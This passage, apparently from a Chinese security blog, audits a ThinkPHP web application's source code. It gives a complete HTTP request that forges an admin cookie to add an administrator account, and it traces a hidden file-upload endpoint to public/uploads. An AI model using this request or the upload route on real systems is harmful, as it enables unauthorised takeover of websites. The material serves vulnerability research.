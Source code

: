 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEl9j9CCr6XWQibMnZWaKnDPMqVFQToJdBjgCLfIUOWpzLxdOJ9pg8zdAwibWtUueqNO0EujHKAX7QAw/640?wx_fmt=png&from=appmsg "")  
  
找到管理员添加的代码，这里重要的就两处，是不是POST请求，传入参数nickname  
和upwd  
的值，后续在将添加的信息插入到数据库中  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEl9j9CCr6XWQibMnZWaKnDPMvoC3DbicYvo92GELnyuNkM3fpGbXF1sXvvC3dwSicgYvNibu6cuKuBiaQw/640?wx_fmt=png&from=appmsg "")  
  
那么payload则为  
```
POST /admin/system/adminadd.html HTTP/1.1Host: xxxxxContent-Length: 29X-Requested-With: XMLHttpRequestAccept-Language: zh-CN,zh;q=0.9Accept: */*Content-Type: application/x-www-form-urlencoded; charset=UTF-8User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36Accept-Encoding: gzip, deflate, brCookie: denglu=think:{"otype":"3","userid":"1","token":"3c341b110c44ad9e7da4160e4f865b63"}Connection: keep-alivenickname=zhangsan1244&upwd=23
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEl9j9CCr6XWQibMnZWaKnDPMALpGC6Nbr5rlmaYKJREzFS3PJzJx4kkXqIHsWbEj0u9LTPDvSWWp6w/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEl9j9CCr6XWQibMnZWaKnDPM93hPuYRLcWd2SWB5tk6HHnMdNmL7OVj45icUGU1QLOibnzvGDWgSUF1w/640?wx_fmt=png&from=appmsg "")  
## 文件上传  
  
这个站修复了上传接口，但是在代码中还是能找出这个上传点的，做个思路。全局搜索upload  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEl9j9CCr6XWQibMnZWaKnDPM1cLWxGf9H3sfFI4iaOtqS3RPHm9mojjY5KhKcvBR4cJZnN8Eu0uVMUg/640?wx_fmt=png&from=appmsg "")  
  
这里搜索到Setup  
控制器，editerweimapost  
函数，有三个注意的点，Cookie  
中的otype  
必须为3，构造Post  
请求参数id  
，还有上传参数erweima  
。并且调用move  
方法  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEl9j9CCr6XWQibMnZWaKnDPMXBQVfwvDaARaGzQu2GPGmzsZZJLZ8BDAjibGKGHDV8wcFhicpDI52bpg/640?wx_fmt=png&from=appmsg "")  
  
这里的ROOT_PATH  
和DS  
都为/，所以路径为public/uploads/  
```
$info = $file->move(ROOT_PATH .'public'. DS . 'uploads');
```  
  
这里重要的也就check  
、还有move_uploaded_file  
上传的2处函数  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEl9j9CCr6XWQibMnZWaKnDPMR56PgZDMgGTGyER5rsPacRnmFEJrA4dvOicXmKXE4IkibbnCuhrvs3Eg/640?wx_fmt=png&from=appmsg "")  
  